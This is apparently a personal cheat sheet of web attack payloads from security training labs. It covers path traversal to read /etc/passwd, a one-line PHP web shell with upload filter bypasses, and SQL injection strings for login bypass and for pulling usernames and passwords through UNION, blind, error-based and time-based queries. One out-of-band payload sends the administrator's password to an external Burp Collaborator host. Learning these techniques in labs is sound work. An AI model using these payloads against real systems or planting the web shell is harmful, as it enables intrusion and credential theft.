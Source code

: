 # notes
## **PATH TRAVERSAL**
Default way:

>GET /image?filename=../../../../../../../../etc/passwd

Url-Encoded:

>%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

Way, when `../` erased:

>....//....//....//....//

When filename should start with some string 

>/var/www/images/../../../../../etc/passwd

When server URL-decode of the input before using it.
>..%252f..%252f..%252fetc/passwd

When server require ending, like `png` , use null bytes, for example
>../../../etc/passwd%00.png





## **FILE UPLOAD**
Default way:
><?php echo system($_GET['command']); ?>

Flawed file type validation:
Change content type to image/jpeg

Script execution can be disabled in a separate folder. This can be bypassed with the help of path traversal:
Instead of 
`Content-Disposition: form-data; name="avatar"; filename="exploit.php"`
  We can use
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
  Or obfuscated versions


### **SQL INJECTION**

Login Bypass:

`administrator'--`

#Substring:

`SUBSTRING('foobar', 4, 2)`
Oracle `SUBSTR('foobar', 4, 2)`

#Simle WAF Bypass by encoding:

`<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>`

`<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>`


### **UNION SQL INJECTION**

Simple Data Retrieve (request `SELECT name, description FROM products WHERE category = 'Gifts'`):

`' UNION SELECT username, password FROM users--`

**Oracle add `from dual`**

### Determine number of columns:

`' ORDER BY 3--`
Second method, allow to determine type of data in column:

`' UNION SELECT NULL,NULL,NULL--`/`' UNION SELECT 'a',NULL,NULL,NULL--`

### Concatenation of strings:

`' UNION SELECT username || '~' || password FROM users--`
Mysql `CONCAT('foo','bar')` or `'foo' 'bar'` note space.

## **BLIND SQL INJECTION**

### conditional based

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

### error based

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

`'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

### visible errors based

`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### time based

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

### out of band interaction

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

